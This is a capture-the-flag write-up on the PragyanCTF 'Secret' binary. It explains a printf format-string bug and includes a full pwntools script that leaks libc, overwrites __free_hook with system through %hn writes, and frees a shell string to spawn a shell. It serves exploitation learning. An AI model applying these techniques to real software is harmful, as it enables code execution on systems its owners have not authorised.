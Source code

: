 ```yaml
---
title: '[PragyanCTF] Secret'
published: true
author: Christos.S
---
```



This is a very good challange to polish and/or improve your `format string` skills. But since the CTF's server got hacked and couldn't exploit their server, I tried to at least write an exploit for the program locally with `libc 2.30`.

I first checked what security features are enabled in the binary.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

I then opened the binary in [Ghidra](https://ghidra-sre.org/) and started looking through the decompiled code.
After some time looking through the code, I found what I was looking for... A vulnerability I could exploit.

In the function `show_task`, I found this:

```c
    void show_tasks(task *current) {
        printf("\n\nName: %s\n",current->name);
        printf("Date: %s\n",current->num);
        printf("Length: %d\n",current->desc_length);
        printf("Description: ");
        printf(current->desc);
        return;
    }
```

The vulnerable line of code is 
```c
printf(current->desc);
```
with a `format string` vunerability

Then my first thought was to look in the binary symbols for the function `system`; with no success. This led me to believe that I should start the exploit by leaking the `libc base` address.

So now that I have a basic understanding of the binary I can think of the attack:

1. Leak `libc base` address
2. Write the `system` function's address in the `__free_hook`
3. Free an address the points to the string `/bin/sh`

Before I start I created 3 functions to interface with the 3 main functionalities of the binary:
1. Create Task
2. Remove Task
3. Display Tasks

___

## Step 1

I found an address on the stack at the `35th` place which points `249` bytes after the start of `__libc_start_main`

```python
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']
```

So after a simple substruction I was able to obtain the `libc base` address

___

## Step 2

This was by far the hardest step in the process. Writing `system`'s address in `__free_hook`. I was not able to just put the address I wanted to overwrite (`__free_hook`) on the the stack because simply my input was never saved on the stack; it went straight onto the heap. So my next option was to find an address on the stack (`2nd` place) that points to another address on the stack (`9th` place). 

Since the address that I wanted to overwrite (`9th` place) on the stack had a chance to have the same highest 2 bytes as the `__free_hooks`, I just written the lowest 2 bytes.

```python
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')
```

Then because I couldn't just write that huge of a number (address of `system`) in one go, I split it into 2 seperate writes. In the first one I wrote the lowest 2 bytes of `system`, changed the address I had on the stack to point 2 bytes forword so I was able to write the highest 2 bytes of `system` in the `__free_hook`

```python
createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')
```

After all this I triggered the the `format string exploit` with `displayTasks()`.

___

## Step 3 

What is now left to do is just free an address that has the string `/bin/sh` written in it. Luckly in the `remove_task` function,

```c
memset(task_ptr->name,0,0x40);
task_ptr->enabled = 0;
task_ptr->desc_length = 0;
free(task_ptr->num);
free(task_ptr->desc);
printf("Removed %s",removename);
```
the first thing that is freed is the `num` field of the `task structure` which is the `date` that is asked when creating a task.

The 1st task I created had `/bin/sh` in the `date` or `num` field, so as soon as that is freed, `system` will be executed with `/bin/sh` giving us a shell!!

```python
removeTask('pwned')
```

---

Below is the full `xpl.py` script:

```python
#!/usr/bin/python
from pwn import *
import re

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./task')

gdbscript = '''
init-gef
c
'''

def start():
	if args.GDB: return gdb.debug(elf.path, gdbscript)
	else: return process(elf.path)

io = start()

def createTask(name, date, descLen, desc):
	io.sendlineafter(':', '1')
	io.sendlineafter(':', name)
	io.sendlineafter(':', date)
	io.sendlineafter(':', str(descLen))
	io.sendlineafter(':', desc)

def removeTask(name):
	io.sendlineafter(':', '2')
	io.sendlineafter(':', name)

def displayTasks():
	io.sendlineafter(':', '3')
	return io.recvuntil('1.')[:-2]

# Leak libc base address
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']

log.success('libc_start_main: 0x%x' % libc_start_main)
log.success('libc base: 0x%x' % libc_base)

# Overide __free_hook with system
system_libc = libc_base + elf.libc.symbols['system']
free_hook = libc_base + elf.libc.symbols['__free_hook']

log.success('system: 0x%x' % system_libc)
log.success('__free_hook: 0x%x' % (free_hook))

# Write __free_hook addr on the stack
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')

log.success("Ready to overwrite __free_hook")

createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')

displayTasks()

removeTask('pwned')

io.interactive()
```
